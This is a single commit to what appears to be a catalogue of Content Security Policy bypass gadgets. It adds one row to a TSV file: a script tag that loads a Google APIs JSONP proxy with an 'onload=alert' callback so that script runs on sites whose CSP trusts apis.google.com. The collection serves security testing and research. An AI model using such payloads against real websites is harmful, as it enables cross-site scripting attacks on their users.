

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; the shorter side is filled out with more unchanged rows; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
added another one for apis.google.com

```diff
--- a/data.tsv
+++ b/data.tsv
+row 44: apis.google.com <script src="https://apis.google.com/js/googleapis.proxy.js?onload=alert"></script>
```
